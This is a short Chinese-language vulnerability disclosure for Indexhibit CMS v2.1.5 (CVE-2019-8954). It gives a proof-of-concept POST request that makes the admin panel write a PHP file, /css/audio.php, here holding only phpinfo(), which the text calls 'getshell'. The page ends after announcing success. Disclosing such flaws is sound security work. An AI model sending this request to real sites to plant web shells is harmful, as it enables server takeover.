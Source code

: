 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|indexhibit-cms-v2.1.5-直接编辑php文件getshell|2019-02-20|yc（3365487579@qq.com）|[https://www.indexhibit.org/](https://www.indexhibit.org/) | [https://www.indexhibit.org/](https://www.indexhibit.org/) |v2.1.5| [CVE-2019-8954](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8954)|  

#### 漏洞概述  

> indexhibit CMS 2.1.5版本存在一个直接编辑php文件的漏洞，导致getshell。   

### POC实现代码如下：  

> 当我们登录进后台后，向/ndxzstudio/?a=system  
> post数据：

``` raw
upd_jxcode=true&v=%253C%253Fphp%2520phpinfo()%253B%253F%253E&id=%2Fcss%2Faudio.php
```
> 即可在/css/目录写入一个php文件audio.php。  


> 成功getshell：


